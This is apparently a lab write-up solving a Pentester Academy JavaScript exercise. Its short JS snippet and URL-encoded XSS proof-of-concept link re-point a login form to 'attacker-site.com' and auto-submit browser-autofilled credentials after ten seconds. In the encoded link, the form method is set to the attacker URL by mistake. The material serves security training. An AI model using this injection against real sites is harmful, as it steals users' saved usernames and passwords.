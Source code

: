 ## Task 12 <small>[[Try Now]](http://pentesteracademylab.appspot.com/lab/webapp/jfp/12)</small>

Objectives:

1. Enter a Username/Password and allow the browser to remember it
2. Reload the page so the auto-complete now adds the Username/Password automatically
3. Write JS attack code which waits for 10 seconds, then submits the form automatically to your Attack server

This is pretty interesting task. So basically in this we have to exploit the autocomplete feature provided by the modern browsers.

Time waits in javascript are provided by [setInterval](https://www.w3schools.com/jsref/met_win_setinterval.asp) and [setTimeout](https://www.w3schools.com/jsref/met_win_settimeout.asp)

In this case, we need setTimeout feature.

The input tags are not set to autocomplete. So we will do it at first

![](https://i.imgur.com/sC7bnlU.png)

```js
let form = document.forms[0];
form.autocomplete = "on";
form.action = "https://attacker-site.com";
form.method = "POST";
setTimeout(() => {
  form.submit();
}, 10000);
```

For POC, [Click Here](http://pentesteracademylab.appspot.com/lab/webapp/jfp/12?url=%3Cscript%3Elet%20form%20%3D%20document.forms%5B0%5D%3B%0Aform.autocomplete%20%3D%20%22on%22%3B%0Aform.action%20%3D%20%22https%3A%2F%2Fattacker-site.com%22%3B%0Aform.method%20%3D%20%22https%3A%2F%2Fattacker-site.com%22%3B%0AsetTimeout%28%28%29%20%3D%3E%20%7B%0A%20%20form.submit%28%29%3B%0A%7D%2C%2010000%29%3B%0A%3C%2Fscript%3E)

**More Resources**

1. [setInterval vs setTimeout](https://stackoverflow.com/a/729943/10362396)
2. [Setting `autocomplete` property using javascript](https://www.w3schools.com/jsref/prop_form_autocomplete.asp)
